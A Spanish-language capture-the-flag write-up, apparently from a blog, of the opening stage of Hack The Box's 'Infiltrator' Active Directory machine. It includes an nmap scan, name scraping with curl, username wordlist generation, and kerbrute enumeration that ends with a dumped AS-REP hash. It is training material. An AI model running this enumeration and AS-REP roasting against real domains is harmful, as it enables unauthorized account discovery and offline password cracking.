>`Aviso` Este writeup es algo viejo, por lo que puede tener errores (Este mismo texto se incluira en todos los writeups que sean old)
{: .prompt-info }

Infiltrator es una maquina de dificultad insane de la plataforma "Hack The Box" la cual muestra diferentes temas tales como Kerberoasting, Asreproast, Pass The Hash, entre muchas otras tecnicas mas que tocaremos mas adelante.

Al esta maquina no disponer de credenciales (como en un entorno empresarial real) pues cambia un poco, pero no deja de ser interesante como se vera a continuacion.

### Nmap Scan

Comenzaremos con el tipico nmap para reconocer los puertos abiertos y que servicios estos corren para hacernos una idea de por donde seria nuestro vector de ataque:

```bash
❯ nmap -A -sV --min-rate 5000 -T5 -p- 10.10.11.31 -vvv --open -oN scan.txt
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-12 18:18 AST
NSE: Loaded 157 scripts for scanning.
NSE: Script Pre-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 18:18
Completed NSE at 18:18, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 18:18
Completed NSE at 18:18, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 18:18
Completed NSE at 18:18, 0.00s elapsed
Initiating Ping Scan at 18:18
Scanning 10.10.11.31 [2 ports]
Completed Ping Scan at 18:18, 0.15s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 18:18
Completed Parallel DNS resolution of 1 host. at 18:18, 0.11s elapsed
DNS resolution of 1 IPs took 0.11s. Mode: Async [#: 2, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating Connect Scan at 18:18
Scanning 10.10.11.31 [65535 ports]
Discovered open port 135/tcp on 10.10.11.31
Discovered open port 53/tcp on 10.10.11.31
Discovered open port 445/tcp on 10.10.11.31
Discovered open port 139/tcp on 10.10.11.31
Discovered open port 3389/tcp on 10.10.11.31
Discovered open port 80/tcp on 10.10.11.31
Discovered open port 49691/tcp on 10.10.11.31
Discovered open port 49692/tcp on 10.10.11.31
Discovered open port 49668/tcp on 10.10.11.31
Discovered open port 49725/tcp on 10.10.11.31
Discovered open port 636/tcp on 10.10.11.31
Discovered open port 49867/tcp on 10.10.11.31
Discovered open port 88/tcp on 10.10.11.31
Increasing send delay for 10.10.11.31 from 0 to 5 due to 12 out of 29 dropped probes since last increase.
Discovered open port 49690/tcp on 10.10.11.31
Warning: 10.10.11.31 giving up on port because retransmission cap hit (2).
Discovered open port 3269/tcp on 10.10.11.31
Discovered open port 464/tcp on 10.10.11.31
Discovered open port 15230/tcp on 10.10.11.31
Discovered open port 593/tcp on 10.10.11.31
Discovered open port 9389/tcp on 10.10.11.31
Discovered open port 389/tcp on 10.10.11.31
Discovered open port 5985/tcp on 10.10.11.31
Completed Connect Scan at 18:19, 57.11s elapsed (65535 total ports)
Initiating Service scan at 18:19
Scanning 21 services on 10.10.11.31
Warning: Hit PCRE_ERROR_MATCHLIMIT when probing for service http with the regex '^HTTP/1\.1 \d\d\d (?:[^\r\n]*\r\n(?!\r\n))*?.*\r\nServer: Virata-EmWeb/R([\d_]+)\r\nContent-Type: text/html; ?charset=UTF-8\r\nExpires: .*<title>HP (Color |)LaserJet ([\w._ -]+)&nbsp;&nbsp;&nbsp;'
Completed Service scan at 18:22, 163.76s elapsed (21 services on 1 host)
NSE: Script scanning 10.10.11.31.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 18:22
NSE Timing: About 99.97% done; ETC: 18:22 (0:00:00 remaining)
Completed NSE at 18:22, 40.13s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 18:22
Completed NSE at 18:22, 3.77s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 18:22
Completed NSE at 18:22, 0.00s elapsed
Nmap scan report for 10.10.11.31
Host is up, received syn-ack (0.24s latency).
Scanned at 2025-05-12 18:18:31 AST for 265s
Not shown: 65514 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE       REASON  VERSION
53/tcp    open  domain        syn-ack Simple DNS Plus
80/tcp    open  http          syn-ack Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-title: Infiltrator.htb
|_http-server-header: Microsoft-IIS/10.0
88/tcp    open  kerberos-sec  syn-ack Microsoft Windows Kerberos (server time: 2025-05-13 01:19:39Z)
135/tcp   open  msrpc         syn-ack Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: infiltrator.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc01.infiltrator.htb, DNS:infiltrator.htb, DNS:INFILTRATOR
| Issuer: commonName=infiltrator-DC01-CA/domainComponent=infiltrator
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-08-04T18:48:15
| Not valid after:  2099-07-17T18:48:15
| MD5:   edac:cc15:9e17:55f8:349b:2018:9d73:486b
| SHA-1: abfd:2798:30ac:7b08:de25:677b:654b:b704:7d01:f071
| -----BEGIN CERTIFICATE-----
| MIIGFzCCBP+gAwIBAgITaQAAAAcLZnIKpCRKcwABAAAABzANBgkqhkiG9w0BAQsF
| ADBQMRMwEQYKCZImiZPyLGQBGRYDaHRiMRswGQYKCZImiZPyLGQBGRYLaW5maWx0
| cmF0b3IxHDAaBgNVBAMTE2luZmlsdHJhdG9yLURDMDEtQ0EwIBcNMjQwODA0MTg0
| ODE1WhgPMjA5OTA3MTcxODQ4MTVaMAAwggEiMA0GCSqGSIb3DQEBAQUAA4IBDwAw
| ggEKAoIBAQDkOAUaoYet8TLY0wyo3Rx58MVCtk1K1WAY8qyfHUvkMNhtrbLhqZCj
| k8HKZI3Vv2T2r28oq/iRznyVNj+1RhgHSI8zzj+txI1WAcsixVKXfsB3SFC86c5c
| lYwb4VVrqkmXfUU4yNysGjrPc+ZYmh4/WKagDRJCXhO7anL5VVl/cyMiDRlu1J3G
| HGNICAN4628kp8FoNzKN4Hu9NAgtQLDPhRO8OMtzcCPp0yNIz9zber9zzPOthMs2
| hm5kGGZrpvHIbtUVdEOd5Xkp+OkOZ/3lLTm7M0yThxhbPG4rLjrGhpzXcxqJiFgO
| DnENwUx6s8D2vmTY+g3s/gaRneO3D0XJAgMBAAGjggM2MIIDMjA2BgkrBgEEAYI3
| FQcEKTAnBh8rBgEEAYI3FQiEnp8ShJykOOmNLofjhFiD9oJXcwEhAgFuAgECMDIG
| A1UdJQQrMCkGCCsGAQUFBwMCBggrBgEFBQcDAQYKKwYBBAGCNxQCAgYHKwYBBQID
| BTAOBgNVHQ8BAf8EBAMCBaAwQAYJKwYBBAGCNxUKBDMwMTAKBggrBgEFBQcDAjAK
| BggrBgEFBQcDATAMBgorBgEEAYI3FAICMAkGBysGAQUCAwUwHQYDVR0OBBYEFF/j
| okzwnKRziJX4r/JNgKZsyTbZMB8GA1UdIwQYMBaAFFvr+eaagKvqQcJQ7ccSoMz+
| Z2bzMIHSBgNVHR8EgcowgccwgcSggcGggb6GgbtsZGFwOi8vL0NOPWluZmlsdHJh
| dG9yLURDMDEtQ0EsQ049ZGMwMSxDTj1DRFAsQ049UHVibGljJTIwS2V5JTIwU2Vy
| dmljZXMsQ049U2VydmljZXMsQ049Q29uZmlndXJhdGlvbixEQz1pbmZpbHRyYXRv
| cixEQz1odGI/Y2VydGlmaWNhdGVSZXZvY2F0aW9uTGlzdD9iYXNlP29iamVjdENs
| YXNzPWNSTERpc3RyaWJ1dGlvblBvaW50MIHJBggrBgEFBQcBAQSBvDCBuTCBtgYI
| KwYBBQUHMAKGgalsZGFwOi8vL0NOPWluZmlsdHJhdG9yLURDMDEtQ0EsQ049QUlB
| LENOPVB1YmxpYyUyMEtleSUyMFNlcnZpY2VzLENOPVNlcnZpY2VzLENOPUNvbmZp
| Z3VyYXRpb24sREM9aW5maWx0cmF0b3IsREM9aHRiP2NBQ2VydGlmaWNhdGU/YmFz
| ZT9vYmplY3RDbGFzcz1jZXJ0aWZpY2F0aW9uQXV0aG9yaXR5MEAGA1UdEQEB/wQ2
| MDSCFGRjMDEuaW5maWx0cmF0b3IuaHRigg9pbmZpbHRyYXRvci5odGKCC0lORklM
| VFJBVE9SME8GCSsGAQQBgjcZAgRCMECgPgYKKwYBBAGCNxkCAaAwBC5TLTEtNS0y
| MS0yNjA2MDk4ODI4LTM3MzQ3NDE1MTYtMzYyNTQwNjgwMi0xMDAwMA0GCSqGSIb3
| DQEBCwUAA4IBAQBkIloIJNPyyP01rf9tc34Wy75yTOgu6lcU/bzwOCJ3QljdsIIV
| BLTTfcocljYU+TP1ANKMyFSOcyusWI0wGJTzcHEZP58zllByDowrz0S3RsvWWNSI
| EsDBkdluTx5azE4PxF4DjF2kEqI54v+WBrZtkePpbsgMuLPVSeedRiGS2ErLgxZz
| 7bVPMKUcDTFhEHX1g9mpm7Zf7CIVoXKROGIu+MDIHCuCO0mrZaIeoyEvAI1spc2f
| Rp7UsuiKh0iVpdV2FB9zaQmy4g/jCqwcit3RdRz7RlSAMSUTTO0p74L71UbExIkF
| oYzuezitpVJ1soDvrpMkv98bi4BqrFPwiyQs
|_-----END CERTIFICATE-----
|_ssl-date: 2025-05-13T01:22:58+00:00; +3h00m03s from scanner time.
445/tcp   open  microsoft-ds? syn-ack
464/tcp   open  kpasswd5?     syn-ack
593/tcp   open  ncacn_http    syn-ack Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      syn-ack Microsoft Windows Active Directory LDAP (Domain: infiltrator.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc01.infiltrator.htb, DNS:infiltrator.htb, DNS:INFILTRATOR
| Issuer: commonName=infiltrator-DC01-CA/domainComponent=infiltrator
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-08-04T18:48:15
| Not valid after:  2099-07-17T18:48:15
| MD5:   edac:cc15:9e17:55f8:349b:2018:9d73:486b
| SHA-1: abfd:2798:30ac:7b08:de25:677b:654b:b704:7d01:f071
| -----BEGIN CERTIFICATE-----
| MIIGFzCCBP+gAwIBAgITaQAAAAcLZnIKpCRKcwABAAAABzANBgkqhkiG9w0BAQsF
| ADBQMRMwEQYKCZImiZPyLGQBGRYDaHRiMRswGQYKCZImiZPyLGQBGRYLaW5maWx0
| cmF0b3IxHDAaBgNVBAMTE2luZmlsdHJhdG9yLURDMDEtQ0EwIBcNMjQwODA0MTg0
| ODE1WhgPMjA5OTA3MTcxODQ4MTVaMAAwggEiMA0GCSqGSIb3DQEBAQUAA4IBDwAw
| ggEKAoIBAQDkOAUaoYet8TLY0wyo3Rx58MVCtk1K1WAY8qyfHUvkMNhtrbLhqZCj
| k8HKZI3Vv2T2r28oq/iRznyVNj+1RhgHSI8zzj+txI1WAcsixVKXfsB3SFC86c5c
| lYwb4VVrqkmXfUU4yNysGjrPc+ZYmh4/WKagDRJCXhO7anL5VVl/cyMiDRlu1J3G
| HGNICAN4628kp8FoNzKN4Hu9NAgtQLDPhRO8OMtzcCPp0yNIz9zber9zzPOthMs2
| hm5kGGZrpvHIbtUVdEOd5Xkp+OkOZ/3lLTm7M0yThxhbPG4rLjrGhpzXcxqJiFgO
| DnENwUx6s8D2vmTY+g3s/gaRneO3D0XJAgMBAAGjggM2MIIDMjA2BgkrBgEEAYI3
| FQcEKTAnBh8rBgEEAYI3FQiEnp8ShJykOOmNLofjhFiD9oJXcwEhAgFuAgECMDIG
| A1UdJQQrMCkGCCsGAQUFBwMCBggrBgEFBQcDAQYKKwYBBAGCNxQCAgYHKwYBBQID
| BTAOBgNVHQ8BAf8EBAMCBaAwQAYJKwYBBAGCNxUKBDMwMTAKBggrBgEFBQcDAjAK
| BggrBgEFBQcDATAMBgorBgEEAYI3FAICMAkGBysGAQUCAwUwHQYDVR0OBBYEFF/j
| okzwnKRziJX4r/JNgKZsyTbZMB8GA1UdIwQYMBaAFFvr+eaagKvqQcJQ7ccSoMz+
| Z2bzMIHSBgNVHR8EgcowgccwgcSggcGggb6GgbtsZGFwOi8vL0NOPWluZmlsdHJh
| dG9yLURDMDEtQ0EsQ049ZGMwMSxDTj1DRFAsQ049UHVibGljJTIwS2V5JTIwU2Vy
| dmljZXMsQ049U2VydmljZXMsQ049Q29uZmlndXJhdGlvbixEQz1pbmZpbHRyYXRv
| cixEQz1odGI/Y2VydGlmaWNhdGVSZXZvY2F0aW9uTGlzdD9iYXNlP29iamVjdENs
| YXNzPWNSTERpc3RyaWJ1dGlvblBvaW50MIHJBggrBgEFBQcBAQSBvDCBuTCBtgYI
| KwYBBQUHMAKGgalsZGFwOi8vL0NOPWluZmlsdHJhdG9yLURDMDEtQ0EsQ049QUlB
| LENOPVB1YmxpYyUyMEtleSUyMFNlcnZpY2VzLENOPVNlcnZpY2VzLENOPUNvbmZp
| Z3VyYXRpb24sREM9aW5maWx0cmF0b3IsREM9aHRiP2NBQ2VydGlmaWNhdGU/YmFz
| ZT9vYmplY3RDbGFzcz1jZXJ0aWZpY2F0aW9uQXV0aG9yaXR5MEAGA1UdEQEB/wQ2
| MDSCFGRjMDEuaW5maWx0cmF0b3IuaHRigg9pbmZpbHRyYXRvci5odGKCC0lORklM
| VFJBVE9SME8GCSsGAQQBgjcZAgRCMECgPgYKKwYBBAGCNxkCAaAwBC5TLTEtNS0y
| MS0yNjA2MDk4ODI4LTM3MzQ3NDE1MTYtMzYyNTQwNjgwMi0xMDAwMA0GCSqGSIb3
| DQEBCwUAA4IBAQBkIloIJNPyyP01rf9tc34Wy75yTOgu6lcU/bzwOCJ3QljdsIIV
| BLTTfcocljYU+TP1ANKMyFSOcyusWI0wGJTzcHEZP58zllByDowrz0S3RsvWWNSI
| EsDBkdluTx5azE4PxF4DjF2kEqI54v+WBrZtkePpbsgMuLPVSeedRiGS2ErLgxZz
| 7bVPMKUcDTFhEHX1g9mpm7Zf7CIVoXKROGIu+MDIHCuCO0mrZaIeoyEvAI1spc2f
| Rp7UsuiKh0iVpdV2FB9zaQmy4g/jCqwcit3RdRz7RlSAMSUTTO0p74L71UbExIkF
| oYzuezitpVJ1soDvrpMkv98bi4BqrFPwiyQs
|_-----END CERTIFICATE-----
|_ssl-date: 2025-05-13T01:22:57+00:00; +3h00m03s from scanner time.
3269/tcp  open  ssl/ldap      syn-ack Microsoft Windows Active Directory LDAP (Domain: infiltrator.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-05-13T01:22:57+00:00; +3h00m03s from scanner time.
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc01.infiltrator.htb, DNS:infiltrator.htb, DNS:INFILTRATOR
| Issuer: commonName=infiltrator-DC01-CA/domainComponent=infiltrator
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-08-04T18:48:15
| Not valid after:  2099-07-17T18:48:15
| MD5:   edac:cc15:9e17:55f8:349b:2018:9d73:486b
| SHA-1: abfd:2798:30ac:7b08:de25:677b:654b:b704:7d01:f071
| -----BEGIN CERTIFICATE-----
| MIIGFzCCBP+gAwIBAgITaQAAAAcLZnIKpCRKcwABAAAABzANBgkqhkiG9w0BAQsF
| ADBQMRMwEQYKCZImiZPyLGQBGRYDaHRiMRswGQYKCZImiZPyLGQBGRYLaW5maWx0
| cmF0b3IxHDAaBgNVBAMTE2luZmlsdHJhdG9yLURDMDEtQ0EwIBcNMjQwODA0MTg0
| ODE1WhgPMjA5OTA3MTcxODQ4MTVaMAAwggEiMA0GCSqGSIb3DQEBAQUAA4IBDwAw
| ggEKAoIBAQDkOAUaoYet8TLY0wyo3Rx58MVCtk1K1WAY8qyfHUvkMNhtrbLhqZCj
| k8HKZI3Vv2T2r28oq/iRznyVNj+1RhgHSI8zzj+txI1WAcsixVKXfsB3SFC86c5c
| lYwb4VVrqkmXfUU4yNysGjrPc+ZYmh4/WKagDRJCXhO7anL5VVl/cyMiDRlu1J3G
| HGNICAN4628kp8FoNzKN4Hu9NAgtQLDPhRO8OMtzcCPp0yNIz9zber9zzPOthMs2
| hm5kGGZrpvHIbtUVdEOd5Xkp+OkOZ/3lLTm7M0yThxhbPG4rLjrGhpzXcxqJiFgO
| DnENwUx6s8D2vmTY+g3s/gaRneO3D0XJAgMBAAGjggM2MIIDMjA2BgkrBgEEAYI3
| FQcEKTAnBh8rBgEEAYI3FQiEnp8ShJykOOmNLofjhFiD9oJXcwEhAgFuAgECMDIG
| A1UdJQQrMCkGCCsGAQUFBwMCBggrBgEFBQcDAQYKKwYBBAGCNxQCAgYHKwYBBQID
| BTAOBgNVHQ8BAf8EBAMCBaAwQAYJKwYBBAGCNxUKBDMwMTAKBggrBgEFBQcDAjAK
| BggrBgEFBQcDATAMBgorBgEEAYI3FAICMAkGBysGAQUCAwUwHQYDVR0OBBYEFF/j
| okzwnKRziJX4r/JNgKZsyTbZMB8GA1UdIwQYMBaAFFvr+eaagKvqQcJQ7ccSoMz+
| Z2bzMIHSBgNVHR8EgcowgccwgcSggcGggb6GgbtsZGFwOi8vL0NOPWluZmlsdHJh
| dG9yLURDMDEtQ0EsQ049ZGMwMSxDTj1DRFAsQ049UHVibGljJTIwS2V5JTIwU2Vy
| dmljZXMsQ049U2VydmljZXMsQ049Q29uZmlndXJhdGlvbixEQz1pbmZpbHRyYXRv
| cixEQz1odGI/Y2VydGlmaWNhdGVSZXZvY2F0aW9uTGlzdD9iYXNlP29iamVjdENs
| YXNzPWNSTERpc3RyaWJ1dGlvblBvaW50MIHJBggrBgEFBQcBAQSBvDCBuTCBtgYI
| KwYBBQUHMAKGgalsZGFwOi8vL0NOPWluZmlsdHJhdG9yLURDMDEtQ0EsQ049QUlB
| LENOPVB1YmxpYyUyMEtleSUyMFNlcnZpY2VzLENOPVNlcnZpY2VzLENOPUNvbmZp
| Z3VyYXRpb24sREM9aW5maWx0cmF0b3IsREM9aHRiP2NBQ2VydGlmaWNhdGU/YmFz
| ZT9vYmplY3RDbGFzcz1jZXJ0aWZpY2F0aW9uQXV0aG9yaXR5MEAGA1UdEQEB/wQ2
| MDSCFGRjMDEuaW5maWx0cmF0b3IuaHRigg9pbmZpbHRyYXRvci5odGKCC0lORklM
| VFJBVE9SME8GCSsGAQQBgjcZAgRCMECgPgYKKwYBBAGCNxkCAaAwBC5TLTEtNS0y
| MS0yNjA2MDk4ODI4LTM3MzQ3NDE1MTYtMzYyNTQwNjgwMi0xMDAwMA0GCSqGSIb3
| DQEBCwUAA4IBAQBkIloIJNPyyP01rf9tc34Wy75yTOgu6lcU/bzwOCJ3QljdsIIV
| BLTTfcocljYU+TP1ANKMyFSOcyusWI0wGJTzcHEZP58zllByDowrz0S3RsvWWNSI
| EsDBkdluTx5azE4PxF4DjF2kEqI54v+WBrZtkePpbsgMuLPVSeedRiGS2ErLgxZz
| 7bVPMKUcDTFhEHX1g9mpm7Zf7CIVoXKROGIu+MDIHCuCO0mrZaIeoyEvAI1spc2f
| Rp7UsuiKh0iVpdV2FB9zaQmy4g/jCqwcit3RdRz7RlSAMSUTTO0p74L71UbExIkF
| oYzuezitpVJ1soDvrpMkv98bi4BqrFPwiyQs
|_-----END CERTIFICATE-----
3389/tcp  open  ms-wbt-server syn-ack Microsoft Terminal Services
| ssl-cert: Subject: commonName=dc01.infiltrator.htb
| Issuer: commonName=dc01.infiltrator.htb
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-05-11T20:51:23
| Not valid after:  2025-11-10T20:51:23
| MD5:   f2b5:7eae:b4e4:0bb3:a834:fc4d:9576:6dfb
| SHA-1: 2f9f:24e4:3ec1:f001:16e6:31ee:b1d3:cb07:585e:0dc3
| -----BEGIN CERTIFICATE-----
| MIIC7DCCAdSgAwIBAgIQPkKql7Qa3olC9aqTPTiWyTANBgkqhkiG9w0BAQsFADAf
| MR0wGwYDVQQDExRkYzAxLmluZmlsdHJhdG9yLmh0YjAeFw0yNTA1MTEyMDUxMjNa
| Fw0yNTExMTAyMDUxMjNaMB8xHTAbBgNVBAMTFGRjMDEuaW5maWx0cmF0b3IuaHRi
| MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEA4mapM75CE8V4krdRT0C8
| EVC+nBqYXK4WPTMET0ITRS/ofa3RQuxFM/n8dNNezEXeMhc0LVdh44r5UYejcqLE
| CxT92/mpQwWQklmb3IKCjOjrd2U5J++YzYAKP4+H+XxXK6lKQkFWwCa/KgJoVHNP
| NW6YostG8mbo/H8JM+gCAOG0lS4QylQmDAbxm112wVyh1kpoV+7vw/CTnYi2bDZ/
| bZv4qwPg0zqfAHCc8R6BohMixXrHDOkPh9pH9/WNqVGcxNdMC8xgPizceA3uJt9T
| q88gHsAGjMEiSLUzBYm3BbbCIzPSrgH6l62Oty2nxMZpIU34b6xO6cG0s8qtttCt
| aQIDAQABoyQwIjATBgNVHSUEDDAKBggrBgEFBQcDATALBgNVHQ8EBAMCBDAwDQYJ
| KoZIhvcNAQELBQADggEBAGb7gqh6yE31FWG2XoTmLvuaXoo2ASAC+Sr1ZX3ofK5p
| o+zavBedJjQhGUDTiy9h59p7DgOR1hTKxhr6qlFmDoBGkyNm6iQGoz93/gb2zEt/
| Oa8AiB3Mcz8uol+YW0NHR+sQg2lfeeZH0dKzaFVuRHTRj5ZdhsfONyESJT2UOmu6
| 7Fj+8mehMt8U0JQqYjbLc2YrrVwbnT6zxfh8PWMC4zOJ0XjOxPKlkS3Dc2Gz7qYZ
| IzTY/E1O4Vin2vlZTTgZ+Gbjvn1q+jP1lp8Dqh4hvjkT/nHNs1ljvkn2y5sNQFg0
| jf1gtJsoLz+tGIFsHfaiyWDyI78h9NFW2TEZvjayPg8=
|_-----END CERTIFICATE-----
|_ssl-date: 2025-05-13T01:22:57+00:00; +3h00m03s from scanner time.
5985/tcp  open  http          syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        syn-ack .NET Message Framing
15230/tcp open  unknown       syn-ack
49668/tcp open  msrpc         syn-ack Microsoft Windows RPC
49690/tcp open  ncacn_http    syn-ack Microsoft Windows RPC over HTTP 1.0
49691/tcp open  msrpc         syn-ack Microsoft Windows RPC
49692/tcp open  msrpc         syn-ack Microsoft Windows RPC
49725/tcp open  msrpc         syn-ack Microsoft Windows RPC
49867/tcp open  msrpc         syn-ack Microsoft Windows RPC
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-05-13T01:22:17
|_  start_date: N/A
|_clock-skew: mean: 3h00m02s, deviation: 0s, median: 3h00m02s
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 29068/tcp): CLEAN (Timeout)
|   Check 2 (port 46912/tcp): CLEAN (Timeout)
|   Check 3 (port 52626/udp): CLEAN (Timeout)
|   Check 4 (port 7342/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 18:22
Completed NSE at 18:22, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 18:22
Completed NSE at 18:22, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 18:22
Completed NSE at 18:22, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 265.25 seconds
```

Nos devuelve una serie de puertos abiertos. Entre ellos una web, y el nombre del DC (Domain Controller) que en este caso seria "dc01.infiltrator.htb"

### Web Enumeration

Revisando la web brevemente nos encontramos con lo siguiente a continuación:






Nos da una web bastante completa con unas personas mas abajo que en este caso vendrian siendo los fundadores de esta empresa, o mas bien, esta pagina web. Que sigue, es la pregunta, ya que la web no es vulnerable a ataques tipicos como XSS (Cross Site Scripting), SQLI (SQL Injection), etc... Pues, con los nombres de las personas que tenemos en la web, podriamos crear a base de ello, un wordlists personalizado, para posteriormente por medio de fuerza bruta, obtener usuarios validos dentro del DC. En este caso, usaremos dos herramientas, las cuales son:

- [username-anarchy](https://github.com/urbanadventurer/username-anarchy)
- [kerbrute](https://github.com/ropnop/kerbrute)

Antes que nada, obteniendo primero los nombres de los usuarios correspondientes que vimos en la pagina. Esto lo podemos lograr a traves de curl, combinandolo con grep, cut, y awk para que de la siguiente respuesta, y asi nos automatizamos la tarea de escribirlo todo a mano:

```bash
❯ curl -v http://infiltrator.htb | grep "<h4>" | cut -d '.' -f 2 | cut -d '<' -f 1 | awk '{$1=""; sub(/^ /, ""); print}'

  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0* Host infiltrator.htb:80 was resolved.
* IPv6: (none)
* IPv4: 10.10.11.31
*   Trying 10.10.11.31:80...
* Connected to infiltrator.htb (10.10.11.31) port 80
* using HTTP/1.x
> GET / HTTP/1.1
> Host: infiltrator.htb
> User-Agent: curl/8.13.0
> Accept: */*
> 
* Request completely sent off
< HTTP/1.1 200 OK
< Content-Type: text/html
< Last-Modified: Mon, 19 Feb 2024 00:41:24 GMT
< Accept-Ranges: bytes
< ETag: "361ade5dcc62da1:0"
< Server: Microsoft-IIS/10.0
< Date: Tue, 13 May 2025 01:55:06 GMT
< Content-Length: 31235
< 
{ [2453 bytes data]
100 31235  100 31235    0     0  64264      0 --:--:-- --:--:-- --:--:-- 64269
* Connection #0 to host infiltrator.htb left intact


David Anderson
Olivia Martinez
Kevin Turner
Amanda Walker
Marcus Harris
Lauren Clark
Ethan Rodriguez
```

Dejandonos a los usuarios de manera limpia y solo teniendolo que copiar a un archivo de texto, para posteriormente con username-anarchy hacer la wordlists de usuarios.

Una vez teniendo este paso completado, podemos ahora si ejecutar el "username-anarchy" para construir la wordlists a partir de los usuasios que sacamos con curl:

```bash
❯ ./username-anarchy --input-file usernames.txt > ../usernames.txt
❯ cat ../usernames.txt
david
davidanderson
david.anderson
davidand
daviande
davida
d.anderson
danderson
adavid
a.david
andersond
anderson
anderson.d
anderson.david
da
olivia
oliviamartinez
olivia.martinez
oliviama
olivmart
oliviam
o.martinez
omartinez
molivia
m.olivia
martinezo
martinez
martinez.o
martinez.olivia
om
kevin
kevinturner
kevin.turner
kevintur
keviturn
kevint
k.turner
kturner
tkevin
t.kevin
turnerk
turner
turner.k
turner.kevin
kt
amanda
amandawalker
amanda.walker
amandawa
amanwalk
amandaw
a.walker
awalker
wamanda
w.amanda
walkera
walker
walker.a
walker.amanda
aw
marcus
marcusharris
marcus.harris
marcusha
marcharr
marcush
m.harris
mharris
hmarcus
h.marcus
harrism
harris
harris.m
harris.marcus
mh
lauren
laurenclark
lauren.clark
laurencl
laurclar
laurenc
l.clark
lclark
clauren
c.lauren
clarkl
clark
clark.l
clark.lauren
lc
ethan
ethanrodriguez
ethan.rodriguez
ethanrod
etharodr
ethanr
e.rodriguez
erodriguez
rethan
r.ethan
rodrigueze
rodriguez
rodriguez.e
rodriguez.ethan
er
```

### Access as L.clark

Con la wordlist construida, podemos ahora utilizar la herramienta kerbrute para realizar el ataque de fuerza bruta, y verificar si existe algún usuario valido a nivel de sistema:

```bash
❯ ./kerbrute userenum -d infiltrator.htb --dc "dc01.infiltrator.htb" ../../usernames.txt

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: dev (9cfb81e) - 05/12/25 - Ronnie Flathers @ropnop

2025/05/12 22:52:37 >  Using KDC(s):
2025/05/12 22:52:37 >  	dc01.infiltrator.htb:88

2025/05/12 22:52:38 >  [+] VALID USERNAME:	d.anderson@infiltrator.htb
2025/05/12 22:52:38 >  [+] VALID USERNAME:	o.martinez@infiltrator.htb
2025/05/12 22:52:38 >  [+] VALID USERNAME:	k.turner@infiltrator.htb
2025/05/12 22:52:38 >  [+] VALID USERNAME:	a.walker@infiltrator.htb
2025/05/12 22:52:39 >  [+] VALID USERNAME:	m.harris@infiltrator.htb
2025/05/12 22:52:39 >  [+] VALID USERNAME:	e.rodriguez@infiltrator.htb
2025/05/12 22:52:39 >  [+] l.clark has no pre auth required. Dumping hash to crack offline:
$krb5asrep$18$l.clark@INFILTRATOR.HTB:6139bde5d65e2e822f1cb2ddb35e0cbf$9bc2e269e23ca14abe684d914ec1f0364c1ee340c688a43e905e5a21240e2f12780dad7a32d46a345d43d43db5475785ca4f4631bc973a7a081f879800804fed6e544148a7e7291e748581c6ff6e2af19769f371f1dce967064d36b997fcd0fce38ba3b1bd4cab823d3b5592b921e5cfa48354d7c0004f49f796fa82d962329fc6f16f09c9e3a78f255ddc6c49398bcb18b9393a8c2364594904251cea2f9a14255f1d3a373e7cf076077db05d5063a86afdfe4b69a3729481aee731153072b2484c3caed0afdcff491a66fac86f974f88a00859234ac1df709256afc3a53e5b299f8ec2e8be7e804a133fc14b56980234e06872d6049b293e52f8049a7b9afc131252a72953
2025/05/12 22:52:39 >  [+] VALID USERNAME:	l.clark@infiltrator.htb
